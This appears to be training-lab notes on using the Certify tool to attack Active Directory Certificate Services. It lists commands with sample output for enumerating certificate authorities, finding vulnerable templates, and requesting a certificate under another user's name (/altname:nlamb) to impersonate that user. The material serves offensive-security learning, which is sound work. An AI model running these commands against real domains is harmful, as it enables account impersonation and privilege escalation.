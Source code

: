 [GitHub Link](https://github.com/GhostPack/Certify)

## cas

---

Finds ADCS Certificate Authorities

``` 
C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

This will output lots of useful information, including the root CA and subordinate CAs:

```
Enterprise CA Name            : ca
DNS Hostname                  : dc-1.cyberbotic.io
FullName                      : dc-1.cyberbotic.io\ca
Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName              : CN=ca, DC=cyberbotic, DC=io
Cert Thumbprint               : 95AF7043BD6241CEE92E6DC6CB8D22494E396CCF
Cert Serial                   : 17DDB078863F61884B680FE6F59211AD
Cert Start Date               : 8/15/2022 3:42:59 PM
Cert End Date                 : 8/15/2047 3:52:59 PM
Cert Chain                    : CN=ca,DC=cyberbotic,DC=io

Enterprise CA Name            : sub-ca
DNS Hostname                  : dc-2.dev.cyberbotic.io
FullName                      : dc-2.dev.cyberbotic.io\sub-ca
Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName              : CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
Cert Thumbprint               : 697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
Cert Serial                   : 13000000046EF818036CF8C99F000000000004
Cert Start Date               : 8/15/2022 4:06:13 PM
Cert End Date                 : 8/15/2024 4:16:13 PM
Cert Chain                    : CN=ca,DC=cyberbotic,DC=io -> CN=sub-ca,DC=dev,DC=cyberbotic,DC=io
```

The Cert Chain is useful to note, as this shows us that "sub-ca" in the DEV domain is a subordinate of "ca" in the CYBER domain.  The output will also list the certificate templates that are available at each CA, as well as some information about which principals are allowed to manage them.


## find

---

Finds misconfigured ADCS templates.

```
C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d7e/9d6/306/customuser.png)

Let's go through the key parts of this output.

1. This template is served by _sub-ca_.
2. The template is called _CustomUser_.
3. _ENROLLEE_SUPPLIES_SUBJECT_ is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
4. The certificate usage has _Client Authenticatio__n_ set.
5. _DEV\Domain Users_ have enrollment rights, so any domain user may request a certificate from this template.

  If a principal you control has WriteOwner, WriteDacl or WriteProperty, then this could also be abused.


## request

---

Requests certificate for user.

### Current User

Requests a certificate for the current user.

```
C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```

### Custom User

Requests a certificate for the specified user.

```
C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb
```


### Computer

The `/machine` parameter is required to auto-elevate to SYSTEM and assume the identity of the computer account.

```
C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```